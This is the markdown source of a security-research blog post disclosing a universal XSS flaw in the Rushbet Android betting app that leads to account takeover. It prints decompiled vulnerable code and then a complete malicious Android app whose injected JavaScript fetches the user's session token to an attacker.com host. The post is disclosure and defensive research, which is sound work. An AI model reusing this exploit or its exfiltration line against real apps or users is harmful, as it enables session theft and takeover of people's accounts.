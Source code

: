 ```yaml
---
slug: uxss-to-account-takeover-rushbet/
title: UXSS to Account Takeover in Rushbet
date: 2023-01-12
subtitle: Injecting JS into one site is harmful, into all, lethal
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1673554228/blog/uxss-to-account-takeover-rushbet/cover_rushbet.webp
alt: Photo by sebastiaan stam on Unsplash
description: In this blog post, we present in detail a vulnerability we discovered in Rushbet v2022.23.1-b490616d, along with the steps to follow to replicate the exploit.
keywords: Rushbet, Mobile Application, Android, Session, Vulnerability, Exploit, Cross Site Scripting, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/RChZT-JlI9g
---
```


During the 2022 FIFA World Cup,
many people were betting their money in support of their preferred teams.
With this in mind,
I researched which mobile sports betting apps were the most used.

Among all those apps,
I chose Rushbet v2022.23.1-b490616d.
Researching this app,
I discovered that it is possible to steal a user's session token
through a malicious app previously installed on their device.

In this blog post,
I will explain this vulnerability in detail,
where it is found in the code
and what steps need to be followed to replicate the exploit.

## Where is this vulnerability in Rushbet?

Examining the AndroidManifest.xml file,
I found the following exported activity:

```xml
<activity android:theme="@style/AppTheme" android:name="com.sugarhouse.casino.MainActivity" android:exported="true" android:launchMode="singleTop" android:configChanges="fontScale|smallestScreenSize|screenSize|uiMode|screenLayout|orientation|keyboardHidden|keyboard">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http" android:host="@string/host_url" android:path="/"/>
        <data android:scheme="http" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:path="/"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="@string/intent_filter_scheme" android:host="@string/intent_filter_host" android:path="/"/>
        <data android:scheme="@string/intent_filter_scheme_cage" android:host="@string/intent_filter_host_cage"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.MY_PACKAGE_REPLACED"/>
    </intent-filter>
</activity>
```

This means
that any app installed on a mobile device
with that vulnerable version of Rushbet
can interact with this activity.

## MainActivity

Once I noticed that,
I went to the exported activity to see what it did and how.
Here,
the application assigns the URL that I send in the intent data
in the variable `this.loadWebviewUrl`:

```java
public final class MainActivity extends Hilt_MainActivity implements [...] {
    // These properties will be used in the onNewIntent listener
    public static final String INTENT_ACTION_EVALUATE_SCRIPT = "Action.EvaluateScript";
    public static final String INTENT_ACTION_EVALUATE_SCRIPT_KEY = "KeyScript";

    [...]

    public void onCreate(Bundle bundle) {
        [...]
        super.onCreate(bundle);
        [...]
        if (activityMainBinding != null) {
            setContentView(activityMainBinding.getRoot());
            [...]
            setWebView();
            [...]
            if (activityMainBinding2 != null) {
                cookieManager.setAcceptThirdPartyCookies(activityMainBinding2.contentMain.activityMainWebview, true);
                Intent intent = getIntent();
                if (intent != null && intent.getData() != null && vf.l.v0(String.valueOf(intent.getData()), HttpHost.DEFAULT_SCHEME_NAME, false)) {
                    this.loadWebviewUrl = String.valueOf(intent.getData());
                }
                [...]
            }
            [...]
        }
        [...]
    }
    [...]
}
```

With the above,
we know
that we can load arbitrary URLs in the WebView:

<image-block>

![“Load arbitrary URLs in the Rushbet WebView”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554439/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-a.webp)

</image-block>

This is a good catch,
but it’s got a lot more potential.
I went on
to find the biggest impact this error can have.
Many Android applications allow updating the state
of a previously launched activity
through the `onNewIntent` listener:

```java
public void onNewIntent(Intent intent) {
    String str;
    super.onNewIntent(intent);

    if (intent != null) {
        str = intent.getAction();
    } else {
        str = null;
    }

    if (hd.h.a(str, INTENT_ACTION_EVALUATE_SCRIPT)) {
        String stringExtra = intent.getStringExtra(INTENT_ACTION_EVALUATE_SCRIPT_KEY);
        if (stringExtra == null) {
            return;
        }
        onEvaluateScript(stringExtra);
        return;
    }
    [...]
}
```

By analyzing the logic of the `onEvaluateScript` listener,
I realized that I can inject malicious JS
into the domain previously loaded in the WebView:

```java
public final void onEvaluateScript(String str) {
    try {
        ActivityMainBinding activityMainBinding = this.binding;
        if (activityMainBinding != null) {
            WebView webView = activityMainBinding.contentMain.activityMainWebview;
            // Inject malicious JS here
            webView.evaluateJavascript("try{" + str + "} catch (err) {}", null);
            return;
        }
        hd.h.m("binding");
        throw null;
    } catch (RuntimeException e10) {
        vh.a.f18108a.b(e10, "Failed to evaluateScript already on UI thread", new Object[0]);
    }
}
```

We have before our eyes a universal XSS.
This means we can execute malicious JS code on arbitrary domains.
To activate the `onNewIntent` listener,
we would only need
to add the `Handler().postDelayed()` instruction to our exploit.
This instruction updates the state of the previously launched activity.
An example of this is shown below:

<image-block>

![“Add instruction on Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554440/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-b.webp)

</image-block>

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>

## Exploit

To exploit this vulnerability
we must create a malicious application like the following:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <application
        android:allowBackup="false"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:theme="@style/Theme.Badapp"
        tools:targetApi="31">

        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.Badapp.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

## POC of account takeover in Rushbet

The next video shows how to exploit this vulnerability
to obtain the user's sessionID
and then use it to access their account:

<video-block>

<iframe
  src="https://user-images.githubusercontent.com/51862990/204892183-b269011b-8211-40c2-87b0-37b320307180.mp4"
  frameborder="0"
  allowfullscreen
>
</iframe>

</video-block>

And here's a screenshot of our end result:

<image-block>

![“Account takeover in Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673557293/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-c.webp)

</image-block>

## Conclusion

As evidenced in this blog post,
an unauthenticated remote attacker can steal the account
of any user logged into the Rushbet v2022.23.1-b490616d mobile app
for Android
via a malicious app installed on their device.

At Fluid Attacks,
we search for complex vulnerabilities in software.
You can secure your technology
by starting your [21-day free trial](../../free-trial/)
of our automated security testing.
Upgrade at any time
to include assessments by our ethical hackers.

